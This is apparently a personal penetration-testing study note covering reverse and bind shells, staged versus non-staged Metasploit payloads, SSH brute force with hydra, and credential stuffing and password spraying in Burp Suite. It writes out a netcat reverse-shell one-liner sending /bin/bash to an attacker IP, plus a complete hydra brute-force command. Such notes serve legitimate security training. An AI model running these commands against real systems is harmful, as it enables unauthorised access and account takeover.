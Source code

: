 ```yaml
---
tags:
- type/reference/ethical-hacking
- context/phase/exploitation
- topic/phases/hacking
---
```


## Reverse Shell vs Bind shell
### Netcat Reverse Shell
- Most common
	- You use it 95% of the time
- A shell gives you access to a machine
	- Attackbox listens - target connects
- A reverse shell is a shell that allows a victim to connect to you
	- You can have netcat active on the attackbox listening on a port, and the target connects to your IP on the same port via netcat
- Port forward or port trigger is needed to connect the target's public IP to the attackbox's private IP
- Example connection
	- Attacker: `nc -nvlp 4444`
	- Target: `nc 192.168.57.6 4444 -e /bin/bash`
- ![Netcat Reverse Shell](assets/Screenshot%20from%202025-09-03%2013-56-41.png)
### Netcat Bind Shell
- Less common
	- Mostly on external assessments
- Most useful when you need to bypass a firewall or when reverse shell isn't working
- The attackbox connects to the target
	- Attackbox connects - target listens
- We open a port on the target via an exploit, then connect to it via netcat
- No need for port forwarding since we connect the attackbox's public IP to the target's private IP
- ![Netcat Bind Shell](assets/Screenshot%20from%202025-09-03%2013-44-18.png)

## Staged vs Non-Staged Payloads
- A payload is what you run as an exploit
- There are different types of payloads
	- Windows payloads
	- Linux payloads
	- Meterpreter payload
		- An attack payload used in [[Hacking Tools#Metasploit |Metasploit]]
		- There are at least 500 payloads in [[Hacking Tools#Metasploit |Metasploit]] alone
- The main difference between a non-staged and a staged payload's syntax is the forward slash `/`
	- Non-staged
		- `windows/meterpreter_reverse_tcp`
	- Staged
		-  `windows/meterpreter/reverse_tcp`
### Staged payloads
- Sends exploit shell payload in stages
- Can be less stable than non-staged
### Non-Staged payloads
- Sends exploit shell code all at once
- Large in size than staged
- Doesn't always work
- ![Staged vs Non-staged](assets/Screenshot%20from%202025-09-04%2011-40-25.png)

## Brute Force
###  SSH
- **Refer To**:
	- [[Common ports and protocols#2. SSH - Secure Shell]]
- You can brute force attack it in a few ways
	- Using hydra
		- Syntax: `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.4:22 -t 4 -V`
			- -P is a password list
			- -t is the number of consecutive attempts or threads
			- -V is verbose
	- Using metasploit
		- Search for an auxiliary ssh login scanner
		- Use the found scanner
		- Check and set the options
		- The required options will be very similar to hydra
- You can use weak or default credentials to test password strength
- The assessment includes if the blue team can catch you
# Credential Stuffing and Password Spraying
### Credentials stuffing
- It's the act of injecting breached account credentials in hopes of an account takeover
- These credentials can be acquired from [[Reconnaissance#^ce5358|leaks]]
- Example attack using [[Hacking Tools#Butp suite|burp suite]] [[Hacking Tools#^cbb090|pitchfork]] attack
	- You're logging into a website for which you have leaked credentials
	- You select from intruder's positions tab the email value, and password value
	- You select pitchfork, and provide it via the payloads tab with a list of usernames for param 1 (the email value param) and a list of passwords for param 2 (the password value param)
	- Pitchfork will try each username of password of equal index together to attempt logging in with them
	- As the attack is running it will show you each attempt and its result
	- You can filter by unsuccessful attempts by checking the response of any of the attempts, and if it failed, copy the failure message then go to the options tab and add it in the grep feature
### Password spraying
- Disclaimer: you must always ask about the number of possible attempts before the account is locked
	- Trying this technique blindly with a bunch of employee usernames can cause mass account locking and DoS for the client company
- Example attack using [[Hacking Tools#Butp suite|burp suite]] [[Hacking Tools#^837b27|sniper]] attack
	- The start is the same as the pitchfork attack, but you select only the email value as your param
	- This attack will try every email in the list once with a common password
# Notes
- If a payload fails, try the other type
	- You send a non-staged payload and it fails, try a staged payload
	- Your failed payload was a reverse shell? Try a bind shell